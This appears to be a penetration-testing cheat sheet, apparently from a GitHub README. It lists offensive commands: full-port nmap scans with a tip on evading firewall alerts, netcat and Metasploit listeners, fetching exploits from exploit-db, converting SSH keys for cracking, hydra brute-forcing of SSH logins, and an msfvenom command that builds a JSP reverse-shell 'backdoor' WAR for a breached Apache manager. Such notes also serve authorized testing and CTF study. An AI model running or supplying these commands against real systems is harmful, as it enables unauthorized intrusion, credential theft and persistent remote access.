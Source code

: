 # Starting Penetration

```
msfconsole
```

To Open metasploit console

## Port Scan

```
nmap -sV -sC -O -p- --min-rate 20000 IP > nmap1.txt
```

##### Alternate

```
nmap -T4 -A -v IP  > nmap2.txt
```

##### UDP:

```
nmap -sU -sV IP -F -v > nmap3.txt
```

-O - OS Detection

-p- - to scan all ports

20k rate probably way too high. Reduce to reduce risk of alerting firewall.

-sS - for TCP SYN Scan

-sV - to show services related to each port

-sU - UDP Scan SLOW - only use if no where to go


### Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

Listen throuh metsploit
```
use exploit/multi/handler
```

### Find Exploits with SearchSploit

```
searchsploit servicename version
```

### Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



### Metadata

```
exiftool file
```

### Web Server:

```
python3 -m http.server PORT
```

Retrieve:
```
wget http://IP:PORT/PATH
```

## SSH

### SSH with RSA file

```
ssh -i /path/to/file user@IP
```
### Convert id_rsa to crackable

```
python3 /usr/share/john/ssh2john.py id_rsa > file.txt
```

#### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


## Apache

### After /manager breach

#### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```
